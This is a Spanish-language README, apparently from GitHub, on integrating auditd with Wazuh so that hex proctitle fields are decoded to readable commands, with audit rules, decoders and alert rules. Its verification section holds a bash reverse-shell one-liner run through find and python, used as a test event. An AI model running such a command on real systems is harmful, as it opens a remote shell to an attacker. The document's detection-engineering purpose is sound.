



# Integración auditd → Wazuh con decodificación de proctitle

## 1. Objetivo

Esta integración permite:

* Capturar eventos de auditd (tipos SYSCALL, EXECVE y PROCTITLE).
* Decodificar el campo proctitle, que viene en hexadecimal, y transformarlo a texto legible.
* Enriquecer los eventos en Wazuh con el comando exacto ejecutado por el usuario.
* Generar reglas de correlación que disparan alertas cuando se detectan llamadas a syscall=execve y comandos específicos.

## 2. Requisitos

* Wazuh Manager 4.12 (probado en esa version).
* auditd instalado, habilitado y generando logs en /var/log/audit/audit.log.
* Reglas auditd que registren execve y proctitle, por ejemplo en /etc/audit/rules.d/audit.rules:

```bash
-a always,exit -F arch=b64 -S execve -k execmonitor
-a always,exit -F arch=b32 -S execve -k execmonitor
```

## 3. Paso a paso

### 3.1. Crear decoders personalizados

* Modificar la configuracion para editar el decoder por defecto de Auditd en Wazuh.
* El archivo en cuestion es __0040-auditd_decoders.xml__
* Seguir la documentacion para realizar esta configuracion: https://documentation.wazuh.com/4.6/user-manual/ruleset/custom.html

Incluye decoders para:

* SYSCALL (extrae uid, auid, exe, syscall, comm, pid, ppid).
* PROCTITLE (extrae el campo hex).
* EXECVE (extrae argumentos opcionales).

Ejemplo de bloque para PROCTITLE:

```xml
<!-- PROCTITLE -->
<decoder name="auditd-syscall">
  <parent>auditd</parent>
  <regex offset="after_regex">type=PROCTITLE msg=audit\(\S+\): proctitle=(\.+)</regex>
  <order>audit.proctitle.msg, audit.proctitle.value</order>
</decoder>
```

### 3.2. Script de decodificación (custom integration)

Archivo: __/var/ossec/integrations/custom-auditd_decoder.py__

Este script convierte el campo HEX de proctitle a texto claro y lo devuelve generado en una alerta nueva.

Permisos recomendados:

```bash
chmod 750 /var/ossec/integrations/custom-auditd_decoder.py
chown root:wazuh /var/ossec/integrations/custom-auditd_decoder.py
```

### 3.3. Definir la integracion en Wazuh

En __/var/ossec/etc/ossec.conf__, dentro de __<ossec_config>__:

```xml
<integration>
  <name>custom-auditd_decoder.py</name>
  <rule_id>100371</rule_id>
  <alert_format>json</alert_format>
</integration>
```

### 3.4. Crear reglas personalizadas

Archivo: __/var/ossec/etc/rules/audit_custom.xml__

Ejemplo básico:

```xml
<rule id="100365" level="3">
    <if_sid>80700</if_sid>
    <field name="audit.type">SYSCALL</field>
    <description>Auditd: Syscall</description>
</rule>

<rule id="100371" level="3">
    <if_sid>100365</if_sid>
    <field name="audit.proctitle.msg">(\S+)</field>
    <description>Auditd: evento de syscall encodeado</description>    
</rule>

<rule id="100390" level="3">
    <field name="integration">custom-auditd_decoder</field>
    <description>Auditd: evento decodeado</description>    
</rule>

```

## 4. Reiniciar servicios

Tras cada cambio, reiniciar Wazuh Manager:

```bash
systemctl restart wazuh-manager
```

## 5. Verificación y pruebas

### 1. Generar un evento controlado:

Mediante la herramienta de Atomic Read Team, se ejecuta un comando de Powershell

```bash
find /tmp -name "temp_file.txt" -exec /usr/bin/python3 -c "import os; os.system('bash -i >& /dev/tcp/127.0.0.1/4444 0>&1')" \;
```

### 2. Revisar el log de Wazuh







## 6. Resultados esperados

Cada ejecución de comando vía execve queda reflejada en Wazuh con:

* Usuario (uid, auid).
* Proceso (exe, comm, pid, ppid).
* Comando exacto en texto claro (proctitle.msg).